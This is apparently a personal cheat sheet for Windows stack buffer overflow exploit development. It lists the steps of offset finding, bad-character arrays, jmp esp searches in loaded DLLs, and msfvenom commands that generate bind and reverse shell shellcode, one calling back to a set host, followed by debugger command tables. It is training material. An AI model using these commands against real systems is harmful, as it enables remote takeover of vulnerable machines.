 ```yaml
---
title: Windows Exploit Dev
category: Exploit Development
order: 1
---
```


> **Basic Stack based Buffer Overflow**

**1. Registers and Memory Addesses**

Copy the addresses in all the registers prior to and after the crash.  Determine if EIP is affected.

**2. Find the offset for EIP control**

Metasploit:
{% highlight bash %}
msf-pattern_create -l 3000
msf-pattern_offset -q 39694438 -l 3000
{% endhighlight %}

Immunity with Mona:
{% highlight bash %}
!mona config -set workingfolder C:\logs\%p
!mona pc 3000
!mona pattern_offset 0x7A46317A 
!mona suggest #automatically creates an exploit skeleton
{% endhighlight %}

**3. Find memory that you can control**

Check where the registers point to at the crash (e.g., jump to ESP) or if memory is static (jump to address)

**4.  Find the offset of where you can control vs where you can jmp to:**

{% highlight bash %}
buf = "1ABCDEFGHIJK2ABCDEFGHIJK3ABCDEFGHIJK4ABCDEFGHIJK" 
buf += "5ABCDEFGHIJK6ABCDEFGHIJK" 
buf += "7ABCDEFGHIJK8ABCDEFGHIJK"
buf += "9ABCDEFGHIJKAABCDEFGHIJK"
buf += "BABCDEFGHIJKCABCDEFGHIJK"
{% endhighlight %}

**5. Find bad characters**

Either the character won't show up or the crash is affected.

{% highlight bash %}
badchars = ( 
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" 
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" 
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" 
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" 
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" 
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" 
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" 
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
{% endhighlight %}

{% highlight bash %}
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" +"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" +"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" +"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" +"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" +"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" +"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" +"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" +"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" +"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" +"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" +"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" +"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" +"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" +"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" +"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
{% endhighlight %}

{% highlight bash %}
badchars = "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
badchars += "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
badchars += "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
badchars += "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
badchars += "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
badchars += "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
badchars += "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
badchars += "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
badchars += "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
badchars += "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
badchars += "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
badchars += "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
badchars += "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
badchars += "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
badchars += "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
badchars += "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
{% endhighlight %}

**6. Find the opcode for the needed jmp instruction:**

nasm_shell.rb:

{% highlight bash %}
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb 
jmp esp
add edx, 12
{% endhighlight %}

windbg:

{% highlight bash %}
a #assemble
jmp esp #press enter twice
u #unassemble
{% endhighlight %}


**7. Find the opcode in the loaded dlls:**

windbg:

* Launch the program
* Launch windbg
* Attach to the process
* Look for non-windows DLLs at the top of the screen

{% highlight bash %}
ModLoad: 10000000 10071000   C:\Program Files\Easy RM to MP3 Converter\MSRMfilter03.dll

> s 10000000 l 10071000  ff e4
#Find an address that doesn't contain bad characters
{% endhighlight %}

Immunity and Mona:

{% highlight bash %}
!mona modules
#Look for modules with no memory protection (e.g., DEP and ASLR)
!mona find -s '\xff\xe4' -m SLMFC.DLL
#Find an address that doesn't contain bad characters
{% endhighlight %}

**8. Create the shellcode:**

{% highlight bash %}
msfvenom -a x86 --platform windows -p windows/shell_bind_tcp EXITFUNC=thread -f python -b "\x00\x0a\x0d" -e x86/alpha_upper -v shellcode
{% endhighlight %}

> **Mona** 

Run a Program | <code> nbd --run /path/to/program </code>
Set Working Folder | <code> !mona config -set workingfolder c:\logs\%p </code>
Set Modules to Exclude | <code> !mona config -set excluded_modules "module1.dll,module2.dll" </code>
Generate cyclic pattern | <code> !mona pc [size] </code>
Find offset | <code> po [address] </code>
find register overwritten with pattern |  <code> findmsp </code> 
Generate bytes from 0x00 to 0xff excluding badchars | <code>  bytearray -b [badchars] </code> 
find a jump point | <code> jmp -r [register] </code> 
skip modules that start with 0x00 | <code> -n </code> 
skip os modules | <code> -o </code>  
Module | <code> -m </code>
Module property | <code> -cm </code>
filter bad chars | <code> -cpd  </code>

**Additional Resources**

* [Mona Manual](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)

> **Debuggers: Immunity** 

Go to a memory address|  Right Click → Go to → Expression (Ctrl+G)
Breakpoint | F2
Step | F7
Exec till Return | Ctrl+F9
Run | F9
Pause | F12

**Additional Resources**

* [Immunity](https://www.sans.org/reading-room/whitepapers/malicious/basic-reverse-engineering-immunity-debugger-36982)

> **Debuggers: WINDBG** 

Start windbg with save layout | <code> windbg -QY C:\path\executable argument </code>
Set breakpoint at Main | <code> Bp vuln_app!main </code>
Set a breakpoint at addres | <code> Bp [address] </code>
list breakpoints | bl 
View stack | u
Dump/Dispaly EDP | dd ebp
Display 2 32bit values pointed to by EBP | <code>  Dp ebp L2 </code>
Display value pointed to by EBP | Dd poi(ebp)
Display segment information by the fs register | Dg fs
Display structure of the peb in nt moduel | </code> Dt nt!_peb </code>
view exception chain | <code> !exchain </code>
pass exception/continue/run | g  
Step | t
step | gN
Step Over | p
Find Location of Function | X executableName!FunctionName
Disassemble at Address | u [address]  
Disassemble code at return address | u poi(ebp+4)
Evaluate Expression | <code> ?esp+100 #value of ESP plus 0x100 </code>
load python |  <code> .load pykd.pyd </code> 
exceute mona stuff | <code> !py mona [command] [args] </code>
Find instruction from opcode | <code> a [enter] jmp esp [enter] [enter] </code>
Find instruction from opcode | <code> u [address from above] </code>
Restart  | .restart
Open Executable | CTRL+E
Attach to process | F6
Memory | Alt+5
Close Window | Ctrl+F4
Restart | Ctrl+Shift+F5
Break | Ctrl+Break
Debug Symbols | <code> SRV*C:\Windows\Symbols*https://msdl.microsoft.com/download/symbols </code>

> **Shellcode** 

{% highlight bash %}
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.37.1 LPORT=4321  -b '\x00\x09\x0a' -f python
{% endhighlight %}





